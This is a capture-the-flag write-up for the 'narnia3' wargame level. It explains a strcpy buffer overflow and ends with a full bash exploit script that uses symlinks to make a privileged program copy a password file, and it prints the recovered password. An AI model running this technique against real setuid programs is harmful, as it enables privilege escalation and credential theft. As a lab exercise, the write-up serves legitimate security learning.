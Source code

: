 # narnia3

`/narnia/narnia3` can be exploited by a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) attack.

## Aim

When run, redirect program output from the default `/dev/null` device, to somewhere we can read later.

## Analysis

```c
char ofile[16] = "/dev/null";
char ifile[32];
...
strcpy(ifile, argv[1]);
```

The overflow occurs using our favourite command, `strcpy`. In this case, we can overwrite `ofile` from the overflow of `ifile`. Remember that local variables are added to the **top** of the stack **in the order they are declared**.

| address | frame | stack   |
| ------- | ----- | ------- |
| low     | main  | `ifile` |
| high    | main  | `ofile` |


## Exploitation
### Design

Essentially this means we can overflow `ifile` to change `ofile`, by passing one long argument to the program.

Unfortunately, strings in C are null byte (`\0`, `0x00`) terminated - the same terminator that bash uses to mark the end of command line arguments. The upshot is that something like this:

```bash
narnia3@narnia:~$ /narnia/narnia3 $(printf "/etc/narnia_pass/narnia4\x00\x00\x00\x00\x00\x00\x00\x00/home/narnia3/out")
error opening rnia3/out
```
will not work, as bash strips out any null bytes it finds before passing input to the program.

Fortunately, we have full access to the filesystem!

```bash
mkdir /home/narnia3/narnianarnianarnia # This path is now 32 bytes long
mkdir /home/narnia3/narnianarnianarnia/home
mkdir /home/narnia3/narnianarnianarnia/home/narnia3
```

This path will be handled by `narnia3` in the following way:

```bash
# Memory
## Expected
/home/narnia3/short/path        /dev/null
|32 byte ifile --------------->|
                                |16 byte ofile>|
ifile="/home/narnia3/path"
ofile="/dev/null"

## Actual (overflow)
/home/narnia3/narnianarnianarnia/home/narnia3/
|48 byte ifile ------------------------------->|
                                |16 byte ofile>|
ifile="/home/narnia3/narnianarnianarnia/home/narnia3/"
ofile="/home/narnia3/"
```

> Note that C reads strnigs from memory until it finds a null byte (`0x00`), at which point it stops. Therefore N bytes of memory can store N - 1 characters.
> This is also the reason in our exploit that `ifile` is read from memory as a 48 byte string, as we overflowed over the terminating `0x00` from when `ifile` was initialised.

We can now create file(s) to exploit this behaviour:

```bash
ln -s /etc/narnia_pass/narnia4 /home/narnia3/narnianarnianarnia/home/narnia3/o
touch /home/narnia3/o
```

Now, when passed as an argument, `ifile` will point to the password file, and the `ofile` will point to an empty file in the home directory.

```bash
narnia3@narnia:~/narnianarnianarnia/home/narnia3$ /narnia/narnia3 /home/narnia3/narnianarnianarnia/home/narnia3/o
copied contents of /home/narnia3/narnianarnianarnia/home/narnia3/o to a safer place... (/home/narnia3/o)
```

We can now just read out the password!

```
narnia3@narnia:~/narnianarnianarnia/home/narnia3$ cat /home/narnia3/o
thaenohtai
▒▒▒▒▒4▒▒▒▒_▒▒}0,narnia3@narnia:
```

> You can read out just the password using `strings /home/narnia3/o`.

### Implementation

As a nice script:

```bash
#!/bin/bash

# Setup filesystem
mkdir /home/narnia3/narnianarnianarnia
mkdir /home/narnia3/narnianarnianarnia/home
mkdir /home/narnia3/narnianarnianarnia/home/narnia3

# Make file objects
ln -s /etc/narnia_pass/narnia4 /home/narnia3/narnianarnianarnia/home/narnia3/o
touch /home/narnia3/o

# Pass exploit argument to program
/narnia/narnia3 /home/narnia3/narnianarnianarnia/home/narnia3/o

# Read password nicely (the output also contains binary output)
strings /home/narnia3/o
```
